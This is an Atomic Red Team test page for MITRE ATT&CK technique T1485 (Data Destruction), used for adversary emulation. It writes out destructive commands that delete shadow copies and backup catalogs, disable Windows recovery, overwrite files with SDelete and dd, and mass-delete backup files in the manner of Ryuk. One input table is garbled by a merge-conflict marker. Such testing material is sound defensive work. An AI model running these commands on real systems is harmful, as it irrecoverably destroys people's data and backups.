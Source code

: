 # T1485 - Data Destruction
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1485)
<blockquote>Adversaries may destroy data and files on specific systems or in large numbers on a network to interrupt availability to systems, services, and network resources. Data destruction is likely to render stored data irrecoverable by forensic techniques through overwriting files or data on local and remote drives.(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018)(Citation: Talos Olympic Destroyer 2018) Common operating system file deletion commands such as <code>del</code> and <code>rm</code> often only remove pointers to files without wiping the contents of the files themselves, making the files recoverable by proper forensic methodology. This behavior is distinct from [Disk Content Wipe](https://attack.mitre.org/techniques/T1488) and [Disk Structure Wipe](https://attack.mitre.org/techniques/T1487) because individual files are destroyed rather than sections of a storage disk or the disk's logical structure.

Adversaries may attempt to overwrite files and directories with randomly generated data to make it irrecoverable.(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018) In some cases politically oriented image files have been used to overwrite data.(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)

To maximize impact on the target organization in operations where network-wide availability interruption is the goal, malware designed for destroying data may have worm-like features to propagate across a network by leveraging additional techniques like [Valid Accounts](https://attack.mitre.org/techniques/T1078), [Credential Dumping](https://attack.mitre.org/techniques/T1003), and [Windows Admin Shares](https://attack.mitre.org/techniques/T1077).(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Talos Olympic Destroyer 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Windows Backup Catalog](#atomic-test-2---windows---delete-windows-backup-catalog)

- [Atomic Test #3 - Windows - Disable Windows Recovery Console Repair](#atomic-test-3---windows---disable-windows-recovery-console-repair)

- [Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete](#atomic-test-4---windows---overwrite-file-with-sysinternals-sdelete)

- [Atomic Test #5 - macOS/Linux - Overwrite file with DD](#atomic-test-5---macoslinux---overwrite-file-with-dd)

- [Atomic Test #6 - Windows - Delete Backup Files](#atomic-test-6---windows---delete-backup-files)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
vssadmin.exe delete shadows /all /quiet
```



<br/>
<br/>

## Atomic Test #2 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wbadmin.exe delete catalog -quiet
```



<br/>
<br/>

## Atomic Test #3 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot.
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```


#### Cleanup Commands:
```
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures
bcdedit.exe /set {default} recoveryenabled yes
```

<br/>
<br/>

## Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete
Overwrites and deletes a file using Sysinternals SDelete.
Requires the download of either Sysinternals Suite or the individual SDelete utility.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| sdelete_path | Path to sdelete.exe | Path | |
=======
|------|-------------|---------------|
| Secure delete tool from Sysinternals must exist on disk at specified location (#{sdelete_exe}) | if (Test-Path #{sdelete_exe}) {0} else {1} | $client = new-object System.Net.WebClient Copy-Item $env:TEMP\Sdelete\sdelete.exe #{sdelete_exe} -Force |

#### Run it with `powershell`! 
```
New-Item $env:TEMP\T1485.txt
Set-Location #{sdelete_path}
.\sdelete.exe -accepteula $env:TEMP\T1485.txt
```



<br/>
<br/>

## Atomic Test #5 - macOS/Linux - Overwrite file with DD
Overwrites and deletes a file using DD.
To stop the test, break the command with CTRL/CMD+C.

**Supported Platforms:** CentOS, Linux, macOS, Ubuntu


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| overwrite_source | Path of data source to overwrite with | Path | /dev/zero|
| file_to_overwrite | Path of file to overwrite and remove | Path | /var/log/syslog|


#### Run it with `bash`! 
```
dd of=#{file_to_overwrite} if=#{overwrite_source}
```



<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files
Deletes backup files in a manner similar to Ryuk ransomware.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```



<br/>
